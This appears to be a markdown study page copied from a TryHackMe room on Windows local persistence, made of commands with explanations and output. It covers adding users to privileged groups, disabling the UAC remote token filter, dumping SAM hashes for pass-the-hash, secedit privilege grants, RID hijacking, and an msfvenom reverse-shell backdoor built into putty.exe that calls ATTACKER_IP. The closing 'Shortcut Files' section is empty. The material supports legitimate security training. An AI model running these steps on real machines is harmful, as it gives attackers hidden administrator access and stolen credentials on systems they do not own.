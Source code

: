 # Windows Persistence



`````
# Windows Persistance 
## Assign Group Memberships
- The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group. We can easily achieve this with the following command:
````
net localgroup administrators jack /add
````
- This will allow you to access the server by using RDP, WinRM or any other remote administration service available.
- Can also use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to **read/write any file or registry key** on the system, ignoring any configured DACL.
````
net localgroup "Backup Operators" jack /add
````
- Since this is an unprivileged account, it **cannot RDP or WinRM** back to the machine unless we **add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM)** groups. We'll use WinRM.
````
net localgroup "Remote Management Users" jack /add
````
- Check the groups and make sure they are not disabled 
````
whoami /groups
GROUP INFORMATION
-----------------
Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
````
- This is due to **User Account Control (UAC)**. One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session, if you are using WinRM, you are confined to a limited access token with no administrative privileges.
- Disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1:
````
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
````
## SAM SYSTEM Exfil / Pass The Hash
- We then proceed to make a backup of `SAM` and `SYSTEM` files and download them to our attacker machine:
````
reg save hklm\system system.bak
reg save hklm\sam sam.bak
````
- With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:
````
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
--snip--
````
- And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
````
evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
````
## Special Privileges and Security Descriptors
- A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. 
- Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself.
- Complete list of all privileges:
- https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
- In the case of the Backup Operators group, it has the following two privileges assigned by default:
- `SeBackupPrivilege`: The user can read any file in the system, ignoring any DACL in place.
- `SeRestorePrivilege`: The user can write any file in the system, ignoring any DACL in place.
- We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:
````
secedit /export /cfg config.inf
````
- We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:
- ![765671a0355e2260c44e5a12a10f090e](https://user-images.githubusercontent.com/75596877/180827452-97d0b2b3-cd89-459f-95ee-4d5276a41516.png)
- We finally convert the `.inf` file into a `.sdb` file which is then used to load the configuration back into the system:
````
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
````
- You should now have a user with equivalent privileges to any `Backup Operator`. The user still can't log into the system via WinRM, so let's do something about it. 
- Instead of adding the user to the `Remote Management Users` group, we'll change the security descriptor associated with the WinRM service to allow `jack` to connect. 
- Think of a security descriptor as an ACL but applied to other system facilities.
- To open the configuration window for WinRM's security descriptor, you can use the following command in **Powershell (you'll need to use the GUI session for this)**:
````
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
````
- This will open a window where you can add `jack` and assign it full privileges to connect to WinRM:
- ![380c80b98c4d1f8c2149ef72427cfeb0](https://user-images.githubusercontent.com/75596877/180828110-e2645cd4-a708-4e8c-b4bf-186ab3d3749c.png)
- Notice that for this user to work with the given privileges fully, you'd have to change the `LocalAccountTokenFilterPolicy` registry key
- If you check your user's group memberships, it will look like a regular user. Nothing suspicious at all!
````
net user jack
User name                    jack

Local Group Memberships      *Users
Global Group memberships     *None
````
## RID Hijacking
- When a user is created, an identifier called Relative ID (RID) is assigned to them. 
- The `RID` is simply a numeric identifier representing the user across the system. When a user logs on, the `LSASS` process gets its `RID` from the `SAM` registry hive and creates an access token associated with that `RID`. 
- If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
- In any Windows system, the default Administrator account is assigned the `RID = 500`, and regular users usually have `RID >= 1000`.
````
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
--snip--
````
- Now we only have to assign the `RID=500` to `jack`. To do so, we need to access the `SAM` using `Regedit`. The `SAM` is restricted to the `SYSTEM` account only, so even the `Administrator` won't be able to edit it. To run `Regedit` as `SYSTEM`, we will use `psexec`.
- `PsExec64.exe -i -s regedit`
From Regedit, we will go to:
- `HKLM\SAM\SAM\Domains\Account\Users\`
- We need to search for a key with its `RID` in hex `(1010 = 0x3F2)`. Under the corresponding key, there will be a value called `F`, which holds the user's effective `RID` at position `0x30`:
- ![d630140974989748ebcf150ba0696d14](https://user-images.githubusercontent.com/75596877/180829367-5257c90e-37bc-4773-9ae2-d1a9bbb0fdc5.png)
- Notice the RID is stored using little-endian notation, so its bytes appear reversed.
- We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):
- ![8f2072b6d13b7343cf7b890586703ddf](https://user-images.githubusercontent.com/75596877/180829481-acd6a81c-fb14-480b-92c8-aa41539dc9f3.png)
- The next time `jack` logs in, `LSASS` will associate it with the same `RID` as Administrator and grant them the same privileges.
## Executable Files
- If you find any executable laying around the desktop, the chances are high that the user might use it frequently. 
- Suppose we find a shortcut to `PuTTY` lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.
````
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
````
## Shortcut Files













### Credit: 
All credit to the content of this page goes to the origional author
- https://tryhackme.com/room/windowslocalpersistence
- https://tryhackme.com/p/munra
- https://tryhackme.com/p/tryhackme


`````

\
